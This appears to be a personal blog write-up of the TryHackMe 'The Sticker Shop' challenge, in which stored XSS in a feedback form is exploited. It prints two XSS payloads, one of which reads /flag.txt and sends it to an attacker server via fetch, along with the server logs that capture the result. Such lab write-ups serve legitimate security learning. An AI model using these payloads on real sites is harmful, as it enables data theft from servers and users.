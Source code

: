 ```yaml
---
title: "TryHackMe - The Sticker Shop"
author: Nasrallah
description: ""
date: 2024-12-05 7:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, web, easy, xss]
img_path: /assets/img/tryhackme/thestickershop
image:
    path: thestickershop.png
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---

[The Sticker Shop](https://tryhackme.com/r/room/thestickershop) from [TryHackMe](https://tryhackme.com/signup?referrer=603949780215185dfb191142) is a simple web challenge where we exploit an XSS vulnerability to read the flag.

## **Enumeration**

### Web

This is a web challenge and the website can be found on port 8080.

![website](1.png)

It's a sticker shop, nothing looks interesting on the home page, let's check the feedback page.

![feedback](2.png)

Here we can submit a feedback.

The first thing that comes to mind is to check if links are being clicked, so I entered my ip address but didn't receive anything on my http server.

Next thing is XSS, Trying multiple payloads I managed to get a hit with the following payload:

```js
<img src="nonexistent.jpg" onerror="fetch('http://10.8.81.165');">
```

```terminal
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.206.107 - - [03/Dec/2024 10:25:28] "GET / HTTP/1.1" 200 -  
```

Now we need to read the file located in `/flag.txt`.

With the help of ChatGPT and some trial and error we ended up with the following payload that reads the file.

```javascript
<img src="nonexistent.jpg" onerror="fetch('/flag.txt').then(r=>r.text()).then(d=>fetch(`http://your-attack-server.com?fileContent=${encodeURIComponent(d)}`));">
```

```terminal
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.206.107 - - [03/Dec/2024 10:35:16] "GET /?fileContent=THM%7B8[REDACTED]ee6%7D HTTP/1.1" 200 -
```

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---
